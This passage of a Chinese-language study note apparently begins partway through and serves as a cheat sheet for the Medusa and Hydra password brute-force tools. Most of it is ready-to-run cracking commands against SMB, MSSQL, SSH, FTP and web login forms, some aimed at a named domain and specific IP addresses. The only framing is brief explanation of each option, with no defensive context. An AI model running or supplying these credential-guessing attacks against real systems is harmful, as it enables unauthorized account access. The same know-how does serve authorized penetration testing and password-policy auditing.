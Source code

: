    	-L                   并行化，每个用户使用一个线程
   	-f                    在任何主机上找到第一个账号/密码后，停止破解
   	-q                   显示模块的使用信息
   	-v [NUM]        详细级别（0-6）
   	-w [NUM]       错误调试级别（0-10）
   	-V                   显示版本
   	-Z [TEXT]        继续扫描上一次
3. 使用
   - 查看可利用的模块 medusa -d

     ![image](http://source.kevaxe.com/wp-content/uploads/2015/08/2.jpg)
   - 显示模块的帮助信息
     medusa -M mysql -q

     ![image](http://source.kevaxe.com/wp-content/uploads/2015/08/3.jpg)
   - 破解smbnt

     	medusa -h www.kevaxe.com -u administrator -P password.txt -e ns -M smbnt
     	使用“-h”参数对主机www.kevaxe.com破解smbnt服务，并使用“-e ns”参数，尝试空密码及账号为密码
   - 破解MSSQL

     	medusa -h 192.168.1.101 -u sa -P passwrod.txt -t 5 -f -M mssql
     	使用“-t”参数指定线程，“-f”指定在任何主机上找到了第1个账号/密码后，停止审计。
   - 破解SSH

     	medusa -M ssh -H host.txt -U username.txt -p password
   - 保存破解结果
     ​	
     	medusa -h 192.168.1.101 -u sa -P passwrod.txt -t 5 -f -e ns -M mssql -O /result.txt

---

# Hydra学习
1. 破解ssh：


   	hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh
   	hydra -l 用户名 -p 密码字典 -t 线程 -o save.log -vV ip ssh
2. 破解ftp：

   	hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV
   	hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV
3. get方式提交，破解web登录：

   	hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/
   	hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php
4. post方式提交，破解web登录：

   	hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form “/admin/	login.php:username=^USER^&amp;password=^PASS^&amp;submit=login:sorry password”

   	hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form “login.php:id=^USER^&amp;passwd=^PASS^:wrong username or password”

